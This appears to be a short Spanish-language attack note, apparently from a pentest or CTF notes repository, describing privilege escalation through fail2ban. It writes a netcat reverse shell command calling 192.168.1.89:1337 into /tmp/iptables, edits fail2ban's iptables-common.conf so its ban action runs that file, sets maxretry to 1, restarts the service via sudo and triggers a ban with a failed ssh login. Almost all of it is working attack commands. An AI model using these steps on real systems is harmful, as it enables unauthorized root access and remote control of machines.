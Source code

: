Crear reverse shell con nombre iptables
```
echo "nc -e /bin/bash 192.168.1.89 1337" > /tmp/iptables
```

Editar archivo de fail2ban para especificar el nuevo iptables
```
nano /etc/fail2ban/action.d/iptables-common.conf
```

```
# Option:  iptables
# Notes.:  Actual command to be executed, including common to all calls options
# Values:  STRING
iptables = /tmp/iptables 
```

Modificar iptable-common.conf para acelerar el baneo con maxretry a 1.
```
nano /etc/fail2ban/jail.conf
```

```
# "bantime" is the number of seconds that a host is banned.
bantime  = 10m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 30s

# "maxretry" is the number of failures before a host get banned.
maxretry = 1
```

Reiniciar fail2ban
```
sudo -u root /usr/bin/systemctl restart fail2ban
```

Intentar conectarse por ssh con un tercer host con contraseña incorrecta y provocar el ban
```
ssh root@192.168.1.89
```